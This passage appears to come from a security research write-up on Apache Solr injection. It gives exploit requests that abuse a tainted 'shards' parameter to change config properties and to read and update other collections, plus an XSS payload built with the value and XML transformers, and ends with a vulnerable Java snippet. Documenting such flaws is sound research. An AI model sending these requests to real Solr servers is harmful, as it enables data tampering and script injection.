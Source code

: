 The exploit request to change Solr config properties may look like:

`GET /search?q=Apple&shards=http://127.0.0.1:8983/solr/collection/config%23&stream.body={"set-property":{"xxx":"yyy"}}`

To query data from another collection

`GET /solr/db/select?q=orange&shards=http://127.0.0.1:8983/solr/atom&qt=/select?fl=id,name:author&wt=json`

To update data in another collection:

`GET /solr/db/select?q=Apple&shards=http://127.0.0.1:8983/solr/atom&qt=/update?stream.body=[%257b%2522id%2522:%25221338%2522,%2522author%2522:%2522orange%2522%257d]%26wt=json&commit=true&wt=json`

Another way to exploit this vulnerability is to alter the Solr response. The "fl" parameter lists the fields that should be returned by the query. For example, by issuing the following requests we are asking to return only 'name' and 'price' fields:

`GET /solr/db/select?q=Apple&fl=name,price`

When this parameter is tainted, we can leverage the [ValueAugmenterFactory](https://lucene.apache.org/solr/guide/6_6/transforming-result-documents.html#TransformingResultDocuments-_value_-ValueAugmenterFactory) **(fl=name:[value v='xxxx'])** to inject additional fields to the document, and specify the injected value ('xxxx') right inside the query.
Moreover, in conjunction with the Xml Transformer **(fl=name:[xml])** we can parse the provided value on the server side and include it to the result document without escaping. This technique may be used for XSS for example:

`GET /solr/db/select?indent=on&q=*&wt=xml&fl=price,name:[value+v='<a:script+xmlns:a="http://www.w3.org/1999/xhtml">alert(1)</a:script>'],name:[xml]`

<p align="center"><img src="images/xss%20valuetransformer.png" alt="complex query.png" width="700"/></p>

**p.s.** no XXE here unfortunately (at least in 7.6)<br>
**p.p.s** RawValueTransformerFactory is introduced in solr 5.2+

### Solr Local Parameters Injection
The more often case when only the "q" (query) parameter comes from the untrusted input and it is properly encoded, for example:

```java
@RequestMapping("/search")
public Object select(@RequestParam(name = "q") String query) {
    //search the supplied keyword inside solr and return result|
    return httprequest(solrURL + "/db/select?q=" + urlencode(query));
}
```

